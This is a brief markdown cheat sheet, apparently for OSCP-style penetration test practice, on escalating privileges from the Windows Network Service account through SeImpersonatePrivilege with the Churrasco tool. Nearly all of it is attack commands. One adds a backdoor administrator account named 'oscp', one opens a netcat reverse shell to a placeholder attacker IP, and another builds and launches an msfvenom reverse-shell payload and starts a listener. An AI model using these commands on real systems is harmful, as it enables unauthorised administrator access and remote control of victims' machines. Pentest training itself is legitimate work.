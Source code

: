 #### Privilage escalation for *nt authority\network service*
Network Service account is a special built-in account that has reduced privileges similar to an authenticated user account. This limited access helps safeguard the computer if an attacker compromises individual services or processes.


```
c:> whoami
whoami
nt authority\network service
```
#### Check /priv
```
c:> whoami /priv
whoami /priv

check for SeImpersonatePrivilage is Enabled
```

#### Upload *churrasco.exe*
- https://github.com/Re4son/Churrasco

#### Create user *add user to localgroup Administrator*
```
churrasco.bin "net user oscp oscp /add && net localgroup Administrators oscp /add"
```

#### Create connection *nc connection*
```
churrasco.exe "nc.exe <your_machine_ip> <your_machine_port> -e cmd.exe"
```

#### Create reverse shell
```
msfvenom -p windows/shell_reverse_tcp lhost=<your_ip_address> lport=<your_port> -f exe -o revshell.exe
upload revshell.exe to machine

churrasco.exe -d "C:\revshell\exe\path\"

in your machine nc -lnvp xyz
```
